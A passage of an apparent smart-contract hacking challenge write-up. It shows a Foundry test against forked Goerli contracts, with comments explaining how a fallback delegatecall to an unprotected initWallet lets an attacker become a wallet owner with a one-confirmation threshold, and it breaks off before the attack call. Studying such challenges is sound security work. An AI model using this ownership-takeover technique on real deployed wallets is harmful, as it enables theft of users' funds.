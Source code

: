 Let's see how it is possible in the solution part.

## Solution code

Now what we have to do is:

- Create an Alchemy or Infura account to be able to fork the Goerli blockchain
- Choose a good block from which we can create a fork. Any block after the creation of the contract will be good
- Run a foundry test that will use the fork to execute the test

Here's the code that I used for the test:

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.13;

import "./utils/BaseTest.sol";
import "src/Wallet.sol";
import "src/WalletLibrary.sol";

contract WalletTest is BaseTest {
    Wallet private wallet;
    WalletLibrary private walletLibrary;

    constructor() {
        string[] memory userLabels = new string[](2);
        userLabels[0] = "Alice";
        userLabels[1] = "Bob";
        preSetUp(2, 100 ether, userLabels);
    }

    function setUp() public override {
        // Call the BaseTest setUp() function that will also create testsing accounts
        super.setUp();

        // Attach the contract to the addresses on the fork
        wallet = Wallet(payable(0x19c80e4Ec00fAAA6Ca3B41B17B75f7b0F4D64CB7));
        walletLibrary = WalletLibrary(payable(0x43FF315d0003365fe1246344115A3142b9EBfe0b));

        vm.label(address(wallet), "Wallet");
        vm.label(address(walletLibrary), "WalletLibrary");

        // We are funding the Wallet contract with 1 wei just to test the transaction that will allow us to withdraw from it!
        vm.deal(address(wallet), 1);
    }

    function testTakeOwnership() public {
        address player = users[0];
        vm.startPrank(player);

        // prepare the attack
        address[] memory owners = new address[](1);
        owners[0] = player;

        // call the `wallet.fallback` function passing the correct data to make it make a
        // delegatecall to walletLibrary that will execute initWallet on Wallet's context
        // initWallet should be protected by a flag that check if the contract has been initialized or not
        // like require(owners.length == 0)
        // by doing so we have been added to the list of owners
        // but we can execute any transaction we want because we have lowered the amount of needed confirmation request
        // required to only 1
```